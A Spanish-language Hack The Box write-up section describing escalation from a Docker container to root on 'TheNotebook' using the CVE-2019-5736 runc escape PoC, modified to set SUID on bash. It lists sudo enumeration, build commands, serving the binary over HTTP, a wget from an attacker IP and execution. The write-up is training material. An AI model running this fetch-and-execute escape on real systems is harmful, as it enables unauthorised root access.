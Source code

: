 
# Escalada de Privilegios 2
___

Listando los permisos **SUDOERS**.
```bash
sudo -l
```

![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130181933.png)

Vemos qué podemos ejecutar como quién sea la instrucción de ejecutar el contenedor "**webaap-dev01**", por lo que se me ocurre ejecutarlo con "**sudo**" de forma qué entre al contenedor como **Root** y luego tratar de hacer un "**docker breakout**".

![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130182114.png)
Pero sólo estamos en un contenedor, no estamos en la máquina real, así que intento hacer el **breakout**, o buscar posibles credenciales para root sin lograr encontrada nada...

así que opto por ver la versión del **Docker** a ver sí encontramos alguna vulnerabilidad.
![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130182233.png)

Vemos qué tiene una versión **18.06.0**, así que hago una búsqueda rápida en busca de vulnerabilidades para un "**breakout**" de esta versión.

Encontrando el siguiente **PoC** [CVE-2019-5736](https://github.com/Frichetten/CVE-2019-5736-PoC), qué leyendo sirve para escapar de un contenedor, así qué modificamos el código para darle permisos **SUID** a la Bash, y como el contenedor lo está ejecutando Root tendremos permisos para dicha acción.


Modificamos el script de la siguiente manera:
![](/assets/images/htb-writeup-thenotebook/Pasted image 20231130183057.png)

Compilamos el script:
```bash
go build -ldflags "-s -w" exploit.go
```

Le reducimos el peso:
```bash
upx exploit.go
```

Nos montamos un servidor python en la ubicación del "**exploit**".
```bash
python3 -m http.server 80
```

Entramos al contenedor nuevamente como **Root** para obtener el exploit, y llamado la bash con su ruta absoluta.
```bash
wget 10.10.x.x/exploit
```

Le damos permisos de ejecución y lo ejecutamos:
```bash
chmod +x exploit
./exploit
```
